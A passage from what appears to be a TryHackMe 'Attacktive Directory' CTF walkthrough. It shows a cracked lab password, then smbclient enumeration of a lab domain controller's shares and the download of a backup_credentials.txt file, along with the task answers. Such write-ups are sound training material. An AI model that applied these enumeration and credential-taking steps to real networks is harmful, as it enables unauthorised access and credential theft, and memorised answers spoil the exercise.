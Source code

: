 ```
Progress.........: 5842944/14344385 (40.73%)
Rejected.........: 0/5842944 (0.00%)
Restore.Point....: 5836800/14344385 (40.69%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: manaiagal -> mamglo

Started: Sat Oct 17 11:19:50 2020
Stopped: Sat Oct 17 11:20:44 2020
```

`management2005`

## Task 6 Enumerate the DC Pt 3

**Enumeration:**

With a user's account credentials we now have significantly more access within the domain. We can now attempt to enumerate any shares that the domain controller may be giving out.

1. Using utility can we map remote SMB shares?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ smbclient -U spookysec.local/svc-admin -L //10.10.225.245
Enter SPOOKYSEC.LOCAL\svc-admin's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backup          Disk
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share
        SYSVOL          Disk      Logon server share
SMB1 disabled -- no workgroup available
```

`smbclient`

2. Which option will list shares?

`-L`

3. How many remote shares is the server listing?

`6`

4. There is one particular share that we have access to that contains a text file. Which share is it?

`backup`

5. What is the content of the file?

```
kali@kali:~/CTFs/tryhackme/Attacktive Directory$ smbclient -U spookysec.local/svc-admin //10.10.225.245/backup
Enter SPOOKYSEC.LOCAL\svc-admin's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 21:08:39 2020
  ..                                  D        0  Sat Apr  4 21:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 21:08:53 2020

                8247551 blocks of size 4096. 3465084 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> exit
```